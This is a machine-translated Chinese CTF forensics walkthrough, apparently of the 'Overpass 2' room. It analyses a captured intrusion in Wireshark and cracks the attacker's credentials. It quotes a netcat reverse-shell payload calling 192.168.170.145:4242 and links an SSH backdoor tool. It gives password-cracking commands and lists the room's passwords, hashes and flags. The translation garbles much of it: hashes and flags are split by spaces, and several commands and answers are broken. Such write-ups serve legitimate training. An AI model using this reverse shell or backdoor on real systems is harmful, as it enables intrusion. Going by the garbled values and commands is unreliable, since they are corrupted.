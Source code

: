 # 天桥 2 演练

> 原文：<https://infosecwriteups.com/overpass-2-walkthrough-d73dc84fa65e?source=collection_archive---------0----------------------->

![](img/4d7c850d53e02015dacd147395d548ca.png)

嗨，伙计们……
今天我们将开始一个新的法医 CTF 挑战赛。我们试着解决这个问题。但是在我们开始这个 CTF 之前，我们需要知道一些法医学的基础知识。

首先，我们需要知道两件事。第一个是 Wireshark，第二个是 pcap 文件

1)**Wireshark 是什么？**
Wireshark 是一款免费开源的数据包分析器。它用于网络故障排除、分析、软件和通信协议开发以及教育

2) **什么是 pcap 文件？**
PCAP 文件是具有网络会话数据的数据文件。这些文件包含关于主机之间建立了何种连接、攻击者如何渗透系统(在入侵的情况下)、通过网络传输的所有数据(如传输的文件等)的数据都被记录和保存。因此，他们被彻底分析，寻找攻击的线索。分析 PCAP 文件的常用工具是 Wireshark。

我们的第一个任务是下载给定的 pcap 文件，并在 wireshark 的帮助下进行分析。

**TASK-1**
Q1)他们用来上传反向外壳的页面的网址是什么？

答复:/发展/

![](img/bc107548faa3f50ad853f91e3f277638.png)

暗示

> ANS 提示:在过滤器标签中搜索 http。它显示 http 请求和响应。然后选择/development/upload.php，点击右键，进入 follow ->tcp stream。并分析它

Q2)攻击者使用什么有效载荷来获取访问权限？

ANS:& 1 | NC 192 . 168 . 170 . 145 4242 >/tmp/f ")？>

Q3)攻击者使用了什么密码来访问 privesc？

答:当 whenevernoteartinstant

> ANS 提示:一些有用的 wireshark 过滤器可以帮助我找到答案。
> 
> 1)http
> 
> 2)http.request.method==POST
> 
> 3)框架包含密码[键入您需要的关键字]

Q4)攻击者如何建立持久性？

答案:[https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)

Q5)使用快速跟踪单词表，有多少系统密码可以破解？

答:4

ANS 提示:去下载 fasttrack.txt 文件。然后安装开膛手约翰密码破解。下一步是将/etc/passwd 保存到一个. txt 文件。

john-wordlist =/usr/local/share/fast track . txt over hash . txt
(开膛手 John 有一个优点是它会自动检测哈希类型)

## 任务 2 研究—分析代码

![](img/534dcdf7e4c32299f26df28df16af173.png)

ssh 后门

这里我们知道一件事。攻击者使用 Github ssh-后门。
所以我们接下来的工作就是分析 github 后门代码。然后我们去 git 克隆[https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)仓库并分析代码

Q1)后门的默认散列是什么？

ANS:BDD 04d 9 bb 7621687 f 5 df 9001 f 5098 EB 22 BF 19 ea C4 C2 c 30 b 6 f 23 efed 4d 24807277d 0f 8 BF CCB 9 e 77659103d 78 c 56 e 66d 2d 7d 8391 DFC 885d 0e 9 b 68 ACD 01 fc 2170 e 3

Q2)后门的硬编码盐是什么？

ANS:1c 362 db 832 F3 f 864 c8 C2 Fe 05 f 2002 a 05

Q3)攻击者使用的哈希是什么？—为此回到 PCAP！

ANS:6d 05358 f 090 EEA 56 a 238 af 02 e 47d 44 ee 5489d 234810 ef 6240280857 EC 69712 a3 E5 e 370 b8 a 41899d 0196 ade 16 c0d 54327 c 5654019292 CBF E0 b 5 e 98 ad 1 FEC 71 bed

Q4)使用 rockyou 和您选择的破解工具破解哈希。密码是什么？

答案:11 月 16 日

> ANS 提示:我们的下一步是分析散列。我们可以看到在这个 hash 6d 05358 f 090 EEA 56 a 238 af 02 e 47d 44 ee 5489d 234810 ef 6240280857 EC 69712 a 3 e 5e 370 b8 a 41899d 0196 ade 16 c 0d 54327 c 5654019292 CBF 0 b 5 e 98 ad 1 FEC 71 bed→这是阿沙-512 hash 和:1c 362 db 832 f 386 所以这是以($pass:$salt)的形式。转到 hashcat 找到哈希模式号并破解它
> 
> hashcat-m 1710-a 0 over hash . txt/usr/local/share/rock you . txt—force

## 任务 3 攻击—返回！

Q1)攻击者破坏了网站。他们留下了什么信息作为标题？

ANS:CooctusClan 的 H4ck3d

Q2)用户标志是什么？

答:thm { d 119 B4 fa 8 c 497 DDB 0525 f 7 ad 200 e 6567 }

ANS 提示:

![](img/04b94e24525fb843a2e2585033b2325a.png)

在 nmap 扫描之后，我们发现 ssh 在端口 22 和 2222 上运行。下一步是尝试登录 ssh。因为这里我们知道用户名和密码。

![](img/c69bd1476875585b377bec59a0dca537.png)

密码:11 月 16 日

下一步是转到主目录并找到标志

![](img/9bd83ea229cce7b9f48c0a32d8948276.png)

Q3)什么是根标志？

答案:thm { d53b 2684 f 169360 bb 9606 c 333873144d }

ANS 提示:

转到主目录并列出所有文件。这里我们可以看到一个名为。suid_bash。执行二进制文件并找到根标志

![](img/b4da16fb606bd8714d05ae11bb357387.png)

谢谢你